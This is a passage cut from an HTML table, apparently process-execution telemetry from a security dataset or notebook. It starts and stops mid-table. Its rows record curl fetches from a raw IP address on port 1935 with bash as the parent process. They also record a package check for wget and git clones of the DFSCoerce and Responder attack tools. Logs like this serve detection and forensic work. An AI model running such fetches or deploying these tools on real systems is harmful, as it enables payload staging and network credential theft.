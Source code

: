       <td>curl http://18.220.210.56:1935/b</td>
      <td>bash</td>
      <td>128</td>
    </tr>
    <tr>
      <th>2</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/curl</td>
      <td>curl http://18.220.210.56:1935/c</td>
      <td>bash</td>
      <td>64</td>
    </tr>
    <tr>
      <th>3</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/curl</td>
      <td>curl http://18.220.210.56:1935/d</td>
      <td>bash</td>
      <td>64</td>
    </tr>
    <tr>
      <th>4</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/dpkg</td>
      <td>dpkg -l wget</td>
      <td>-</td>
      <td>64</td>
    </tr>
    <tr>
      <th>5</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/dpkg-query</td>
      <td>dpkg-query --list -- wget</td>
      <td>-</td>
      <td>64</td>
    </tr>
    <tr>
      <th>6</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/git</td>
      <td>git branch</td>
      <td>/usr/bin/python3</td>
      <td>96</td>
    </tr>
    <tr>
      <th>7</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/git</td>
      <td>git clone https://github.com/Wh04m1001/DFSCoerce</td>
      <td>-</td>
      <td>64</td>
    </tr>
    <tr>
      <th>8</th>
      <td>-</td>
      <td>-</td>
      <td>/usr/bin/git</td>
      <td>git clone https://github.com/lgandx/Responder</td>
